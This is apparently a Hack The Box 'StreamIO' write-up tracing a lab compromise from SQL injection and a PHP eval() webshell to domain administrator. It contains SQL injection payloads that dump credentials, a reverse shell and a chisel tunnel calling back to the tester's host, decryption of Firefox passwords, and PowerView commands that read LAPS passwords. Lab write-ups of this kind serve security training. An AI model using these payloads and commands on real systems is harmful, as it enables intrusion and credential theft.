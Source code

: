 # StreamIO

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image (71) (1) (2).png" alt=""><figcaption></figcaption></figure>

### HTTPS Cert

On port 443, we can head to the website to find some kind of streaming platform.

<figure><img src="../../../.gitbook/assets/image (64) (1) (1).png" alt=""><figcaption></figcaption></figure>

Checking the cert, we can find another domain name:

<figure><img src="../../../.gitbook/assets/image (31) (2) (1).png" alt=""><figcaption></figcaption></figure>

We can add this domain to our `/etc/hosts` files. Another notable thing we found was the login function on the main domain.&#x20;

### SQL Injection

The new domain leads us to a different website.

<figure><img src="../../../.gitbook/assets/image (46) (1) (2).png" alt=""><figcaption></figcaption></figure>

The page was written in PHP (visiting index.php brings us to home page), thus we can fuzz possible endpoints with the `.php` extension using `gobuster -x` flag.

<figure><img src="../../../.gitbook/assets/image (72) (1) (2).png" alt=""><figcaption></figcaption></figure>

Within `search.php`, we can find a query function.

<figure><img src="../../../.gitbook/assets/image (23) (4) (1).png" alt=""><figcaption></figcaption></figure>

This was vulnerable to SQL Injection, and the payload `a' union select 1,2,3,4,5,6;-- -` works. From here, we can enumerate out the users and tables present in the website.

<figure><img src="../../../.gitbook/assets/image (56) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Using the STREAMIO database, we can dump out the tables present:

<figure><img src="../../../.gitbook/assets/image (1) (8).png" alt=""><figcaption></figcaption></figure>

Then, we can take a look at the users table. This can be done using `a' union select 1, concat(username, ':', password), 3,4,5,6 from users; -- -`.&#x20;

<figure><img src="../../../.gitbook/assets/image (54) (1) (2).png" alt=""><figcaption></figcaption></figure>

After getting all the credentials, we can crack the hashes and then brute force the `login.php` page we found earlier on `streamio.htb`. The user `yoshihide` and his password works!

### Debug Fuzz

Within the admin dashboard, we can see a few functionalities that cause a unique parameter of `?staff=` to be passed.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (6).png" alt=""><figcaption></figcaption></figure>

I found this rather interesting, and wanted to fuzz this more. I was able to find another `debug` endpoint using `wfuzz`.

<figure><img src="../../../.gitbook/assets/image (41) (3) (1).png" alt=""><figcaption></figcaption></figure>

I also used `gobuster` to see what other files were present on this directory.

<figure><img src="../../../.gitbook/assets/image (29) (1) (2) (2).png" alt=""><figcaption></figcaption></figure>

`master.php` was the most unique.

### Eval RCE

Within the debug page, there isn't much visual difference apart from one line:

<figure><img src="../../../.gitbook/assets/image (35) (4) (1).png" alt=""><figcaption></figcaption></figure>

Because this page was in PHP, I tested the `debug` parameter with a common `php://filter` LFI exploit, and this worked!

<figure><img src="../../../.gitbook/assets/image (22) (1) (2).png" alt=""><figcaption></figcaption></figure>

We can then take a look at that `master.php` file we found earlier. The last bit was the most interesting.

<pre class="language-php"><code class="lang-php">&#x3C;?php
if(isset($_POST['include']))
{
    if($_POST['include'] !== "index.php" ) 
        eval(file_get_contents($_POST['include']));
else
<strong>    echo(" ---- ERROR ---- ");
</strong>}
?> 
</code></pre>

The `eval()` function was being used, and this was definitely vulnerable to some kind of RCE. So to construct the attack, we can attempt to upload a `cmd.php` webshell via encoding with base64 and then send it via a POST request with an `include` parameter.&#x20;

We can send this request here:

<figure><img src="../../../.gitbook/assets/image (9) (1) (6).png" alt=""><figcaption></figcaption></figure>

And we finally have RCE on the machine. Then, we can gain a reverse shell via `nc.exe`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (7) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We don't have much control over the machine with this user, so we need to find another.

### MSSQL

When checking `netstat`, we can find a service listening on port 1433 that was not detectable earlier from our Kali machine.

<figure><img src="../../../.gitbook/assets/image (75) (3) (1).png" alt=""><figcaption></figcaption></figure>

Also, we can head to the `inetpub` folder to find credentials, of which we do within the `index.php` file:

<figure><img src="../../../.gitbook/assets/image (18) (1) (4) (1).png" alt=""><figcaption></figcaption></figure>

We can then port forward via `chisel`.&#x20;

```bash
# on Kali
./chisel server -p 8000 --reverse

# on Victim
.\chisel.exe client 10.10.16.12:8000 R:1433:127.0.0.1:1433
```

Using `mssqlclient.py`, we can access the database with the credentials we found.

<figure><img src="../../../.gitbook/assets/image (36) (3).png" alt=""><figcaption></figcaption></figure>

I took a look at the streamio\_backup database and found credentials for a `nikk37` user.

<figure><img src="../../../.gitbook/assets/image (38) (4) (1).png" alt=""><figcaption></figcaption></figure>

The hash can be cracked via crackstation.

<figure><img src="../../../.gitbook/assets/image (30) (3).png" alt=""><figcaption></figcaption></figure>

Then, we can `evil-winrm` in as this user:

<figure><img src="../../../.gitbook/assets/image (37) (4).png" alt=""><figcaption></figcaption></figure>

### Firefox Passwords + Bloodhound

When I ran WinPEAS on this machine, it picked up on a Firefox credential file. We can use `firepwd.py` to decrypt the passwords.

<figure><img src="../../../.gitbook/assets/image (49) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/lclevy/firepwd/blob/master/firepwd.py" %}

Upon decrypting the `logins.json` file, we can find some more passwords.

<figure><img src="../../../.gitbook/assets/image (69) (1) (2).png" alt=""><figcaption></figcaption></figure>

Since we had credentials, I also ran a `bloodhound-python` to enumerate the objects within the host.

<figure><img src="../../../.gitbook/assets/image (44) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Found that the `jdgodd` user had some permissions over the Core Staff group.

<figure><img src="../../../.gitbook/assets/image (45) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

And members of this Core Staff were able to ReadLAPSPassword for the DC.

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### ReadLAPSPassword

To exploit this, we would first need to add the `jdgodd` user into the Core Staff group, and then read the administrator password.

The adding can be done via remote Powershell and Powerview using the credentials we found from Firefox earlier for `jdgodd`.&#x20;

```powershell
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio\JDgodd', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -principalidentity "streamio\JDgodd"
Add-DomainGroupMember -Identity "Core Staff" -Members 'streamio\JDgodd' -Credential $Cred
```

<figure><img src="../../../.gitbook/assets/image (58) (1) (2).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can use `crackmapexec` modules to read the LAPS password.

<figure><img src="../../../.gitbook/assets/image (14) (1) (2) (2).png" alt=""><figcaption></figcaption></figure>

Then, we can `evil-winrm` in as the administrator.

<figure><img src="../../../.gitbook/assets/image (48) (1) (2).png" alt=""><figcaption></figcaption></figure>
